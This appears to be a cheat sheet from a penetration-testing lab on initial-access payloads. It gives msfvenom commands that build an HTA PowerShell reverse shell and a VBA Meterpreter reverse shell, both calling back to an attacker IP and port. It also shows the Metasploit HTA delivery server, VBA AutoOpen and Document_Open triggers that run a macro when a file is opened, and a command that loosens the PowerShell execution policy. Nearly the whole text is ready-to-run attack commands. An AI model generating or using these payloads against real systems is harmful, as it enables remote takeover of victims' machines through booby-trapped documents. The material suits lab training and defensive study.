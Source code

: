 ```bash copy
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f hta-psh -o thm.hta
```
- Generates an HTA reverse shell payload.
- `-p windows/x64/shell_reverse_tcp`: Payload type.
- `LHOST=10.10.10.10`: Attacker IP.
- `LPORT=1234`: Attacker port.
- `-f hta-psh`: HTA PowerShell format.
- `-o thm.hta`: Output file.

### Use HTA server
```bash copy
use exploit/windows/misc/hta_server
```
- Sets up Metasploit’s HTA server for payload delivery.


## VBA Payload

### VBA payload
```vba copy
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
Sub Document_Open()
        Auto_Open
End Sub
```
- Triggers a VBA payload on document or workbook open.

```bash copy
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f vba
```
- Generates a VBA Meterpreter reverse shell.
- `-p windows/meterpreter/reverse_tcp`: Payload type.
- `LHOST=10.10.10.10`: Attacker IP.
- `LPORT=1234`: Attacker port.
- `-f vba`: VBA format.

## PowerShell Script Execution

### Set PowerShell execution policy
```powershell copy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Allows running remote PowerShell scripts for the current user.
- `-Scope CurrentUser`: Applies to current user.
- `RemoteSigned`: Allows remote scripts.
